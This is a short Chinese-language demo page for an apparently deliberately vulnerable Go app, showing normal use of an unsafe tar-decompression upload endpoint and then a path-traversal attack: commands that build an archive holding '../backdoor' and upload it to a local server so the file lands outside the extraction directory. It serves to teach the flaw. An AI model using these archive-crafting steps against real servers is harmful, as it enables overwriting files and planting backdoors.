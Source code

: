 # 正常使用时

```
➜  vuln-go-app tar -czvf normal.tar.gz main.go
a main.go
```

```
➜  vuln-go-app curl -F'file=@normal.tar.gz' 127.0.0.1:8089/unsafe/decompress_tar
```

# 恶意攻击
制作恶意tar包
```
➜  vuln-go-app touch ../backdoor
➜  vuln-go-app tar -P -f evil.tar.gz -zcv ../backdoor
a ../backdoor
➜  vuln-go-app rm ../backdoor
```

上传压缩包后，服务端会解压压缩包，并且会把backdoor解压到上级目录。
```
curl -F'file=@evil.tar.gz' 127.0.0.1:8089/unsafe/decompress_tar
```
